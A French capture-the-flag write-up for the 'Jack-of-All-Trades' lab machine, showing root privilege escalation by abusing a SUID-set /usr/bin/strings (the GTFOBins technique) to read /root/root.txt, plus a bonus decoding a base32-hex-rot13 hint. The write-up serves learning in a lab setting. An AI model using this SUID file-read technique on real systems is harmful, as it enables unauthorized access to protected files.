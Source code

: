 # Privesc to root!
On regarde ce que peux faire jack avec la commande **sudo -l**
```
jack@jack-of-all-trades:/tmp$ sudo -l
[sudo] password for jack: 
Sorry, user jack may not run sudo on jack-of-all-trades.
```
Jack ne peux rien faire. Ce bras cassé.

On tente avec linpeas. Il trouve une privesc avec strings qui à le paramètre **+s** (suid):
```
-rwsr-x--- 1 root dev 27K Feb 25  2015 /usr/bin/strings
```
En regardant sur GTFOBins, il y a moyen de l'exploiter.

On peux l'exploiter en 2 étapes, la 1ere et de lui indiquer le fichier à lire, ici, on souhaite le fichier **root.txt**
```
jack@jack-of-all-trades:/tmp$ LFILE=/root/root.txt
```
Ensuite, on doit executer strings avec la variable :
```
jack@jack-of-all-trades:/tmp$ /usr/bin/strings "$LFILE"
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{********************************}
```
Nous voila avec le flag root !
```
securi-tay2020_{********************************}
```
# BONUS !
Concernant le hashes présent sur la page recovery :
```
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=
```
Après de longue rechercher car ca me trotter il s'agit enfaite d'une triple encodage base32->hex->rot13

On va pouvoir le lire avec la commande :
```
echo "GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=" | base32 -d | xxd -r -p | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
Ce qui donne :
```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```
Qui pointe vers **https://en.wikipedia.org/wiki/Stegosauria**
Un petit troll ce createur de room !
